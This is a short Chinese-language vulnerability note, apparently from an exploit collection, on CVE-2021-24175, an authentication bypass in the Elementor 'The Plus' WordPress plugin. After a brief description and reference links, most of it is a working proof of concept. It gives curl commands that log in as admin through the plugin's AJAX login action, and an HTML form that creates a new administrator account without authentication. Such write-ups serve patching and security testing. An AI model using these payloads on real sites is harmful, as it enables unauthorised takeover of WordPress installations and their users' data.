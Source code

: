 # WordPress Elementor Page Builder Plus 身份验证绕过 CVE-2021-24175

## 漏洞描述

未经身份验证的用户可以使用"theplus_ajax_login"和"theplus_google_ajax_register" Ajax请求，通过仅提供相关的用户名，就可以像任何用户一样轻松地进行身份验证。

参考链接：

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24175
- https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89

## 漏洞影响

```
Elementor Page Builder <4.1.7
```

## 漏洞复现

poc：

```
curl -X POST --data action=theplus_ajax_login --data email=admin -iLSS https://example.com/wp-admin/admin-ajax.php
curl -X POST --data action=theplus_google_ajax_register --data email=admin --data nonce=a -iLSS https://example.com/wp-admin/admin-ajax.php
```

"theplus_google_ajax_register"  AJAX请求还可以允许任何未经身份验证的用户创建具有任意角色的帐户，例如admin，然后登录。

html：

```html
<form method="POST" action="https://example.com/wp-admin/admin-ajax.php">
<input value="newadmin" name="name" type="text">
<input value="test@example.com" name="email" type="text">
<input value="test" name="password" type="text">
<input value="theplus_google_ajax_register" name="action" type="text">
<input value="administrator" name="tp_user_reg_role" type="text">
<input value="any" name="nonce" type="text">
<input type="submit" />
</form>
```

